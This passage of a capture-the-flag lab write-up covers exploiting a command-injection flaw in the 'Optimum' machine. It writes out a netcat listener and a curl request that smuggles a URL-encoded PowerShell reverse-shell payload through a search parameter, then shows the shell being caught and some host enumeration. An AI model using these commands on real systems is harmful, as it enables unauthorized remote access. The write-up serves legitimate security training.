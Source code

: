 ### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the URL encoded version of the 'Powershell #3 (Base64)'
payload from [RevShells](https://www.revshells.com/).

I'll save it as the `URL_ENCODED_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Let's exploit this CVE to execute our payload.

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.8/?search=%00%7B%7B.exec|$URL_ENCODED_REVSHELL_PAYLOAD.%7D%7D"
```

If we check our listener:

```
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.8] 49158
PS C:\Users\kostas\Desktop>
```

It caught the reverse shell!

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `kostas`.

### Architecture

What is Optimum's architecture?

```ps1
PS C:\Users\kostas\Desktop> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" | Select-Object -ExpandProperty "PROCESSOR_ARCHITECTURE"
```

```
AMD64
```

It's using AMD64. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Optimum.

```ps1
PS C:\Users\kostas\Desktop> Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" | Format-List -Property "ProductName", "CurrentBuildNumber"
```
